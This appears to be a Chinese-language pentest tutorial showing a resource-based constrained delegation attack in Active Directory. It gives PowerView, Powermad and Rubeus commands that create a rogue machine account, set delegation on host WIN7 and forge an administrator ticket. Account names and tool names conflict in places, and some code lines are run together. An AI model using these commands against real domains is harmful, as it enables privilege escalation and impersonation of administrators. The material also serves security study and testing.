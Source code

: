 我们依旧使用 powerview。先调用  
`Get-DomainUser -Identity username -Properties objectsid`来获取当前用户 SID  
然后`Get-DomainObjectAcl -Identity 主机名 | ?{$_.SecurityIdentifier -match "刚刚得到的SID"}` 查看当前用户对某台主机是否有写权限。

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWMsZSSOe1ZvmfCLehJNFUAFPmVQgGLfLiborWrkpYhhlB2vlibtwqbW5ug/640?wx_fmt=png)

如果有 GenericAll（完全控制权），GenericWrite、WriteProperty、WriteDacl 这些属性，就说明该用户能修改计算机的账户属性。  
如图看到我们对 WIN7 进行操作

好的，我们接下来就要创立一个机器用户了。根据网上搜索结果，使用 powermad 这个 ps 脚本可以很快捷的创建一个机器用户。https://github.com/Kevin-Robertson/Powermad

```
Import-Module .\Powermad.ps1New-MachineAccount -MachineAccount hacksystem -Password $(ConvertTo-SecureString "hack" -AsPlainText -Force)
```

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWM8WT15RefARxnIe6cDhGBU6xSibBECHQJZlPn9WbHZQsYIulKeQSroRg/640?wx_fmt=png)

好的，我们添加了一个密码 hack，名为 hacksystem 的机器账户，接下来就是配置 hacksystem 到 WIN7 的委派了。我们需要做的，是修改 WIN7 的 `msDS-AllowedToActOnBehalfOfOtherIdentity`属性的值 ，这个操作我们用 powerview 实现。

```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-3298638106-3321833000-1571791979-1112)"  #这儿的sid是我们创建的#机器用户#evilsystem的sid$SDBytes = New-Object byte[] ($SD.BinaryLength)$SD.GetBinaryForm($SDBytes, 0)Get-DomainComputer WIN7| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWMvGGEicc8uSSEicxJ8od5AoZx05mM9j3NXxeTk3BwHcYLIJ92FdVzT1dA/640?wx_fmt=png)

至于机器账户 SID 怎么获得，powerview 下的 `get-domiancomputer hacksystem`  
然后使用`Get-DomainComputer WIN7 -Properties msds-allowedtoactonbehalfofotheridentity`查看委派是否设置成功

`Set-DomainObject win7 -Clear 'msds-allowedtoactonbehalfofotheridentity' -Verbose`此命令可以清除 msds-allowedtoactonbehalfofotheridentity 属性的值

现在都统统设置好了，开始下一步吧。  
网上一般用的 rubeus，这里我用 kekeo 吧

```
Rubeus.exe hash /user:xxx /password:xxx /domain:xxx
```

本地运算出机器用户 ntlm hash 这里借用一下别人的图

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWMlAf27a2kKtyPYHH0b4cWI6uPkW50v1qnoV1hiam2Du5lYfrGyJ5micxg/640?wx_fmt=png)

`Rubeus.exe s4u /user:evilsystem$ /rc4:B1739F7FC8377E25C77CFA2DFBDC3EC7 /impersonateuser:administrator /msdsspn:cifs/dm2008 /ptt`写入票据

然后我在本机使用以上方法后 klist 一下，发现确实存在票据

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWMglwNHSYmeyYtzhrDCFKuic7DPa7EXkibRiaiaPdlUTEtnTTv1Rzwmccia9A/640?wx_fmt=png)

但是 dir \test1\c$ 时本机莫名其妙不能进行 kerberos 验证，我服了》。。但不管怎样，我们拿到银票了
